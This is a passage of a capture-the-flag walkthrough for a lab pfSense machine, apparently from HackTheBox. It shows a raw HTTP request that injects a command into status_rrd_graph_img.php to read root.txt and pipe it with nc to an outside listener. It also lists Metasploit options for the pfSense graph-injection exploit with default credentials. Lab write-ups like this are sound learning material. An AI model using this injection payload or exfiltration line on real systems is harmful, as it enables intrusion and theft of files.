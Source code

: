 ![user.txt](../../Assets/walktrhough-assets/sense-userFlag.png)

## Root.txt
```bash
GET /status_rrd_graph_img.php?database=queues;cat+${HOME}root${HOME}root.txt|nc+10.10.16.10+9002 HTTP/1.1
Host: 10.129.147.216
Cookie: PHPSESSID=3ae3a7d6e57713b1a4abd15e586d10cf; cookie_test=1739042635
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```
![user.txt](../../Assets/walktrhough-assets/sense-rootFlag.png)

### Lazy Easy Way
for this one we use `metasploit`
```bash
msf6 exploit(unix/http/pfsense_graph_injection_exec) > options

Module options (exploit/unix/http/pfsense_graph_injection_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  pfsense          yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS    10.129.147.216   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     443              yes       The target port (TCP)
   SSL       true             no        Negotiate SSL/TLS for outgoing connections
```